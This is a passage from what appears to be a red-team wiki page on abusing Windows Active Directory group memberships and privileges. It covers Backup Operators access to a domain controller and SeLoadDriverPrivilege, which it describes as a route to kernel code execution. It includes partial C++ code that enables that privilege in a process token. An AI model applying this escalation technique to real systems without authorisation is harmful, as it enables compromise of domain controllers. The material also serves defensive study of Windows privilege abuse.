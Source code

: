 ![](<../../.gitbook/assets/Screenshot from 2018-12-17 17-38-58.png>)

The story changes:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 17-39-08.png>)

## Backup Operators

As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 17-42-47.png>)

## SeLoadDriverPrivilege

A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 22-40-30.png>)

`Whoami /priv` shows the privilege is disabled by default:

![](<../../.gitbook/assets/Screenshot from 2018-12-17 21-59-15.png>)

However, the below code allows enabling that privilege fairly easily:

{% code title="privileges.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
		NULL,            // lookup privilege on local system
		L"SeLoadDriverPrivilege",   // privilege to lookup 
		&luid))        // receives LUID of privilege
	{
		printf("LookupPrivilegeValue error: %un", GetLastError());
		return FALSE;
	}
	tp.PrivilegeCount = 1;
	tp.Privileges[0].Luid = luid;
	
	if (bEnablePrivilege) {
		tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	}
	
	// Enable the privilege or disable all privileges.
	if (!AdjustTokenPrivileges(
		hToken,
		FALSE,
		&tp,
		sizeof(TOKEN_PRIVILEGES),
		(PTOKEN_PRIVILEGES)NULL,
		(PDWORD)NULL))
```
